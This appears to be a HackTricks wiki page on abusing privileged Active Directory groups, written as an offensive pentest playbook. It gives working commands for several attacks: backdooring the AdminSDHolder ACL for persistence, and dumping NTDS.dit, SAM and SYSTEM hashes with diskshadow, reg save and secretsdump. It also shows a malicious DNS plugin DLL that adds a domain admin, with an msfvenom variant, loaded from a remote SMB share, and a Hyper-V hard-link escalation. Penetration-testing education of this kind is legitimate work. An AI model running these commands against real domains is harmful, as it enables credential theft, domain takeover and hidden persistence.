






# Privileged Groups

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Known groups with administration privileges

* **Administrators**
* **Domain Admins**
* **Enterprise Admins**

There are other account memberships and access token privileges that can also be useful during security assessments when chaining multiple attack vectors.

## Account Operators <a href="#account-operators" id="account-operators"></a>

* Allows creating non administrator accounts and groups on the domain
* Allows logging in to the DC locally

Get **members** of the group:

```powershell
Get-NetGroupMember -Identity "Account Operators" -Recurse
```

Note the spotless' user membership:

 (1) (1).png>)

However, we can still add new users:



As well as login to DC01 locally:



## AdminSDHolder group

The Access Control List (ACL) of the **AdminSDHolder** object is used as a template to **copy** **permissions** to **all “protected groups”** in Active Directory and their members. Protected groups include privileged groups such as Domain Admins, Administrators, Enterprise Admins, and Schema Admins.\
By default, the ACL of this group is copied inside all the "protected groups". This is done to avoid intentional or accidental changes to these critical groups. However, if an attacker modifies the ACL of the group **AdminSDHolder** for example giving full permissions to a regular user, this user will have full permissions on all the groups inside the protected group (in an hour).\
And if someone tries to delete this user from the Domain Admins (for example) in an hour or less, the user will be back in the group.

Get **members** of the group:

```powershell
Get-NetGroupMember -Identity "AdminSDHolder" -Recurse
```

Add a user to the **AdminSDHolder** group:

```powershell
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=testlab,DC=local' -PrincipalIdentity matt -Rights All
```

Check if the user is inside the **Domain Admins** group:

```powershell
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'spotless'}
```

If you don't want to wait an hour you can use a PS script to make the restore happen instantly: [https://github.com/edemilliere/ADSI/blob/master/Invoke-ADSDPropagation.ps1](https://github.com/edemilliere/ADSI/blob/master/Invoke-ADSDPropagation.ps1)

[**More information in ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/how-to-abuse-and-backdoor-adminsdholder-to-obtain-domain-admin-persistence)

## **AD Recycle Bin**

This group gives you permission to read deleted AD object. Something juicy information can be found in there:

```bash
#This isn't a powerview command, it's a feature from the AD management powershell module of Microsoft
#You need to be in the "AD Recycle Bin" group of the AD to list the deleted AD objects
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```

### Domain Controller Access

Note how we cannot access files on the DC with current membership:



However, if the user belongs to `Server Operators`:



The story changes:



### Privesc <a href="#backup-operators" id="backup-operators"></a>

Use [`PsService`](https://docs.microsoft.com/en-us/sysinternals/downloads/psservice) or `sc`, form Sysinternals, to check permissions on a service.

```
C:\> .\PsService.exe security AppReadiness

PsService v2.25 - Service information and configuration utility
Copyright (C) 2001-2010 Mark Russinovich
Sysinternals - www.sysinternals.com

[...]

        [ALLOW] BUILTIN\Server Operators
                All
```

This confirms that the Server Operators group has [SERVICE\_ALL\_ACCESS](https://docs.microsoft.com/en-us/windows/win32/services/service-security-and-access-rights) access right, which gives us full control over this service.\
You can abuse this service to [**make the service execute arbitrary commands**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#modify-service-binary-path) and escalate privileges.

## Backup Operators <a href="#backup-operators" id="backup-operators"></a>

As with `Server Operators` membership, we can **access the `DC01` file system** if we belong to `Backup Operators`.

This is because this group grants its **members** the [**`SeBackup`**](../windows-local-privilege-escalation/privilege-escalation-abusing-tokens/#sebackupprivilege-3.1.4) and [**`SeRestore`**](../windows-local-privilege-escalation/privilege-escalation-abusing-tokens/#serestoreprivilege-3.1.5) privileges. The **SeBackupPrivilege** allows us to **traverse any folder and list** the folder contents. This will let us **copy a file from a folder,** even if nothing else is giving you permissions. However, to abuse this permissions to copy a file the flag [**FILE\_FLAG\_BACKUP\_SEMANTICS**](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea) \*\*\*\* must be used. Therefore, special tools are needed.

For this purpose you can use [**these scripts**](https://github.com/giuliano108/SeBackupPrivilege)**.**

Get **members** of the group:

```powershell
Get-NetGroupMember -Identity "Backup Operators" -Recurse
```

### **Local Attack**

```bash
# Import libraries
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
Get-SeBackupPrivilege # ...or whoami /priv | findstr Backup SeBackupPrivilege is disabled

# Enable SeBackupPrivilege
Set-SeBackupPrivilege
Get-SeBackupPrivilege

# List Admin folder for example and steal a file
dir C:\Users\Administrator\
Copy-FileSeBackupPrivilege C:\Users\Administrator\\report.pdf c:\temp\x.pdf -Overwrite
```

### AD Attack

For instance, you can directly access the Domain Controller file system:



You can abuse this access to **steal** the active directory database **`NTDS.dit`** to get all the **NTLM hashes** for all user and computer objects in the domain.

Using [**diskshadow**](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) you can **create a shadow copy** of the **`C` drive** and in the `F` drive for example. The, you can steal the `NTDS.dit` file from this shadow copy as it won't be in use by the system:

```
diskshadow.exe

Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC,  10/14/2020 10:34:16 AM

DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% F:
DISKSHADOW> end backup
DISKSHADOW> exit
```

As in the local attack, you can now copy the privileged file **`NTDS.dit`**:

```
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```

Another way to copy files is using [**robocopy**](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/robocopy)**:**

```
robocopy /B F:\Windows\NTDS .\ntds ntds.dit
```

Then, you can easily **steal** the **SYSTEM** and **SAM**:

```
reg save HKLM\SYSTEM SYSTEM.SAV
reg save HKLM\SAM SAM.SAV
```

Finally you can **get all the hashes** from the **`NTDS.dit`**:

```shell-session
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```

## DnsAdmins

A user who is member of the **DNSAdmins** group or have **write privileges to a DNS** server object can load an **arbitrary DLL** with **SYSTEM** privileges on the **DNS server**.\
This is really interesting as the **Domain Controllers** are **used** very frequently as **DNS servers**.

As shown in this \*\*\*\* [**post**](https://adsecurity.org/?p=4064), the following attack can be performed when DNS is run on a Domain Controller (which is very common):

* DNS management is performed over RPC
* [**ServerLevelPluginDll**](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-dnsp/c9d38538-8827-44e6-aa5e-022a016ed723) allows us to **load** a custom **DLL** with **zero verification** of the DLL's path. This can be done with the `dnscmd` tool from the command line
* When a member of the **`DnsAdmins`** group runs the **`dnscmd`** command below, the `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll` registry key is populated
* When the **DNS service is restarted**, the **DLL** in this path will be **loaded** (i.e., a network share that the Domain Controller's machine account can access)
* An attacker can load a **custom DLL to obtain a reverse shell** or even load a tool such as Mimikatz as a DLL to dump credentials.

Get **members** of the group:

```powershell
Get-NetGroupMember -Identity "DnsAdmins" -Recurse
```

### Execute arbitrary DLL

Then, if you have a user inside the **DNSAdmins group**, you can make the **DNS server load an arbitrary DLL with SYSTEM privileges** (DNS service runs as `NT AUTHORITY\SYSTEM`). You can make the DNS server load a **local or remote** (shared by SMB) DLL file executing:

```
dnscmd [dc.computername] /config /serverlevelplugindll c:\path\to\DNSAdmin-DLL.dll
dnscmd [dc.computername] /config /serverlevelplugindll \\1.2.3.4\share\DNSAdmin-DLL.dll
```

An example of a valid DLL can be found in [https://github.com/kazkansouh/DNSAdmin-DLL](https://github.com/kazkansouh/DNSAdmin-DLL). I would change the code of the function `DnsPluginInitialize` to something like:

```c
DWORD WINAPI DnsPluginInitialize(PVOID pDnsAllocateFunction, PVOID pDnsFreeFunction)
{
		system("C:\\Windows\\System32\\net.exe user Hacker T0T4llyrAndOm... /add /domain");
		system("C:\\Windows\\System32\\net.exe group \"Domain Admins\" Hacker /add /domain");
}
```

Or you could generate a dll using msfvenom:

```bash
msfvenom -p windows/x64/exec cmd='net group "domain admins" <username> /add /domain' -f dll -o adduser.dll
```

So, when the **DNSservice** start or restart, a new user will be created.

Even having a user inside DNSAdmin group you **by default cannot stop and restart the DNS service.** But you can always try doing:

```csharp
sc.exe \\dc01 stop dns
sc.exe \\dc01 start dns
```

[**Learn more about this privilege escalation in ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise)

#### Mimilib.dll

As detailed in this [**post**](http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html), It's also possible to use [**mimilib.dll**](https://github.com/gentilkiwi/mimikatz/tree/master/mimilib) from the creator of the `Mimikatz` tool to gain command execution by **modifying** the [**kdns.c**](https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/kdns.c) \*\*\*\* file to execute a **reverse shell** one-liner or another command of our choosing.

### WPAD Record for MitM

Another way to **abuse DnsAdmins** group privileges is by creating a **WPAD record**. Membership in this group gives us the rights to [disable global query block security](https://docs.microsoft.com/en-us/powershell/module/dnsserver/set-dnsserverglobalqueryblocklist?view=windowsserver2019-ps), which by default blocks this attack. Server 2008 first introduced the ability to add to a global query block list on a DNS server. By default, Web Proxy Automatic Discovery Protocol (WPAD) and Intra-site Automatic Tunnel Addressing Protocol (ISATAP) are on the global query block list. These protocols are quite vulnerable to hijacking, and any domain user can create a computer object or DNS record containing those names.

After **disabling the global query** block list and creating a **WPAD record**, **every machine** running WPAD with default settings will have its **traffic proxied through our attack machine**. We could use a tool such as \*\*\*\* [**Responder**](https://github.com/lgandx/Responder) **or** [**Inveigh**](https://github.com/Kevin-Robertson/Inveigh) **to perform traffic spoofing**, and attempt to capture password hashes and crack them offline or perform an SMBRelay attack.


[spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md](../../generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md)


## Event Log Readers

Members of the [**Event Log Readers**](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn579255\(v=ws.11\)?redirectedfrom=MSDN#event-log-readers) \*\*\*\* group have **permission to access the event logs** generated (such as the new process creation logs). In the logs **sensitive information** could be found. Let's see how to visualize the logs:

```powershell
#Get members of the group
Get-NetGroupMember -Identity "Event Log Readers" -Recurse
Get-NetLocalGroupMember -ComputerName <pc name> -GroupName "Event Log Readers"

# To find "net [...] /user:blahblah password"
wevtutil qe Security /rd:true /f:text | Select-String "/user"
# Using other users creds
wevtutil qe Security /rd:true /f:text /r:share01 /u:<username> /p:<pwd> | findstr "/user"

# Search using PowerShell
Get-WinEvent -LogName security [-Credential $creds] | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}
```

## Exchange Windows Permissions

Members are granted the ability to **write a DACL to the domain object**. An attacker could abuse this to **give a user** [**DCSync**](dcsync.md) privileges.\
If Microsoft Exchange is installed in the AD environment, It is common to find user accounts and even computers as members of this group.

This [**GitHub repo**](https://github.com/gdedrouas/Exchange-AD-Privesc) explains a few **techniques** to **escalate privileges** abusing this group permissions.

```powershell
#Get members of the group
Get-NetGroupMember -Identity "Exchange Windows Permissions" -Recurse
```

## Hyper-V Administrators

The [**Hyper-V Administrators**](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#hyper-v-administrators) group has full access to all [Hyper-V features](https://docs.microsoft.com/en-us/windows-server/manage/windows-admin-center/use/manage-virtual-machines). If **Domain Controllers** have been **virtualized**, then the **virtualization admins** should be considered **Domain Admins**. They could easily **create a clone of the live Domain Controller** and **mount** the virtual **disk** offline to obtain the **`NTDS.dit`** file and extract NTLM password hashes for all users in the domain.

It is also well documented on this [blog](https://decoder.cloud/2020/01/20/from-hyper-v-admin-to-system/), that upon **deleting** a virtual machine, `vmms.exe` attempts to **restore the original file permissions** on the corresponding **`.vhdx` file** and does so as `NT AUTHORITY\SYSTEM`, without impersonating the user. We can **delete the `.vhdx`** file and **create** a native **hard link** to point this file to a **protected SYSTEM file**, and you will be given full permissions to.

If the operating system is vulnerable to [CVE-2018-0952](https://www.tenable.com/cve/CVE-2018-0952) or [CVE-2019-0841](https://www.tenable.com/cve/CVE-2019-0841), we can leverage this to gain SYSTEM privileges. Otherwise, we can try to **take advantage of an application on the server that has installed a service running in the context of SYSTEM**, which is startable by unprivileged users.

### **Exploitation Example**

An example of this is **Firefox**, which installs the **`Mozilla Maintenance Service`**. We can update [this exploit](https://raw.githubusercontent.com/decoder-it/Hyper-V-admin-EOP/master/hyperv-eop.ps1) (a proof-of-concept for NT hard link) to grant our current user full permissions on the file below:

```bash
C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe
```

#### **Taking Ownership of the File**

After running the PowerShell script, we should have **full control of this file and can take ownership of it**.

```bash
C:\htb> takeown /F C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe
```

#### **Starting the Mozilla Maintenance Service**

Next, we can replace this file with a **malicious `maintenanceservice.exe`**, **start** the maintenance **service**, and get command execution as SYSTEM.

```
C:\htb> sc.exe start MozillaMaintenance
```


This vector has been mitigated by the March 2020 Windows security updates, which changed behavior relating to hard links.


## Organization Management

This group is also in environments with **Microsoft Exchange** installed.\
members of this group can **access** the **mailboxes** of **all** domain users.\
This group also has **full control** of the OU called `Microsoft Exchange Security Groups`, which contains the group [**`Exchange Windows Permissions`**](privileged-groups-and-token-privileges.md#exchange-windows-permissions) \*\*\*\* (follow the link to see how to abuse this group to privesc).

## Print Operators

The members of this gorup are granted:

* [**`SeLoadDriverPrivilege`**](../windows-local-privilege-escalation/privilege-escalation-abusing-tokens/#seloaddriverprivilege-3.1.7)
* **Log on locally to a Domain Controller** and shut it down
* Permissions to **manage**, create, share, and delete **printers connected to a Domain Controller**


If the command `whoami /priv`, doesn't show the **`SeLoadDriverPrivilege`** from an unelevated context, you need to bypass UAC.


Get **members** of the group:

```powershell
Get-NetGroupMember -Identity "Print Operators" -Recurse
```

Check in this page how to abuse the SeLoadDriverPrivilege to privesc:


[abuse-seloaddriverprivilege.md](../windows-local-privilege-escalation/privilege-escalation-abusing-tokens/abuse-seloaddriverprivilege.md)


## Remote Desktop Users

Members of this group can access the PCs over RDP.\
Get **members** of the group:

```powershell
Get-NetGroupMember -Identity "Remote Desktop Users" -Recurse
Get-NetLocalGroupMember -ComputerName <pc name> -GroupName "Remote Desktop Users"
```

More info about **RDP**:


[pentesting-rdp.md](../../network-services-pentesting/pentesting-rdp.md)


## Remote Management Users

Members of this group can access PCs over **WinRM**.

```powershell
Get-NetGroupMember -Identity "Remote Management Users" -Recurse
Get-NetLocalGroupMember -ComputerName <pc name> -GroupName "Remote Management Users"
```

More info about **WinRM**:


[5985-5986-pentesting-winrm.md](../../network-services-pentesting/5985-5986-pentesting-winrm.md)


## Server Operators <a href="#server-operators" id="server-operators"></a>

This membership allows users to configure Domain Controllers with the following privileges:

* Allow log on locally
* Back up files and directories
* \`\`[`SeBackupPrivilege`](../windows-local-privilege-escalation/privilege-escalation-abusing-tokens/#sebackupprivilege-3.1.4) and [`SeRestorePrivilege`](../windows-local-privilege-escalation/privilege-escalation-abusing-tokens/#serestoreprivilege-3.1.5)
* Change the system time
* Change the time zone
* Force shutdown from a remote system
* Restore files and directories
* Shut down the system
* control local services

Get **members** of the group:

```powershell
Get-NetGroupMember -Identity "Server Operators" -Recurse
```

## References <a href="#references" id="references"></a>

















{% embed url="https://github.com/killswitch-GUI/HotLoad-Driver/blob/master/NtLoadDriver/EXE/NtLoadDriver-C%2B%2B/ntloaddriver.cpp#L13" %}









{% embed url="https://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FExecutable%20Images%2FNtLoadDriver.html" %}

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
